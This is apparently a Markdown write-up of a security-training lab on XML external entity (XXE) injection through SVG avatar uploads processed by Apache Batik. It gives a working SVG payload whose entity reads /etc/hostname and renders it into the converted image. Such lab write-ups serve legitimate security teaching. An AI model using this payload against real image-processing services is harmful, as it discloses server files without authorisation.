



# Exploiting XXE via image file upload
# Objective
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.\
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

# Solution
## Analysis
Application has a `Post comment` feature. Data from client to server is sent in `form-data` format. User can provide `avatar` image which can be `.svg` file. Server convert uploaded `.svg` file to `.png` file.

||
|:--:| 
| *Post comment request* |

## Exploitation
Attacker can inject the following XXE payload into `.svg` file:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


||
|:--:| 
| *XXE injection into the svg image file* |
||
| *XXE injection into the svg image file - returned png image* |
